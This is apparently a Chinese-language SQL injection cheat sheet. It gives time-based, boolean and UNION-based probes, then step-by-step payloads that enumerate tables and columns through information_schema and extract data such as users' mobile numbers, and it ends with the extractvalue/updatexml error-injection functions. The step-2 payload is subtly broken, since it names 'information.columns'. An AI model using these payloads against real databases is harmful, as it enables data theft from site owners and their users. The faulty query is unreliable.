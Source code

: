 # sql注入漏洞
> demo: xxx.com/goods/info?&id=1
>
> > 猜测 sql 语句: `select id,name from xx where id=1`
## union联合查询
### check leak 
- 测试数据类型强转: 若 `where id=1 and 1=2` 被强转为 `where id=1`，则数据类型为无引号的int
- 计算结果是否影响查询: `where id=1+1`
- 延时注入: `where id=1 and sleep(10)`
- 布尔注入: `where id=1 && '-1' like '-1'` 
- 测试flag数: `order by 2` 或 `union select null,null`//select尽量用null去匹配,除了mysql，其他数据库要求`union select`字段类型一一对应
> 测试mssql尽量使用`union all`，因为`union`会排除重复的值
### 利用注入点


#### step1: 获取所有表名
```sql
where id=1 
union select 1,table_name 
from information_schema.tables 
where table_schema=database() 
limit 1 offset 1
```

#### step2: 获取字段名
```sql
where id=1 
union select 1,column_name 
from information.columns 
where table_schema=database() 
&& table_name="yourTableName"
limit 1,1 #query one by one or use group_concat(column_name)
```

#### step3: 获取任意数据

__example__
```
where id=1 
union select 1,mobile
from user
limit 1,1
```
## xparh显错注入 & http header 注入

```text
/**
 * 从目标xml搜索字符串
 * @param XML_document
 * @param xpath_string
 */
extractvalue(XML_document，xpath_string);

/**
 * 替换xml匹配节点的值
 * @param XML_document
 * @param xpath_string
 * @param new_value
 */
updatexml(XML_document，XPath_string，new_value);
```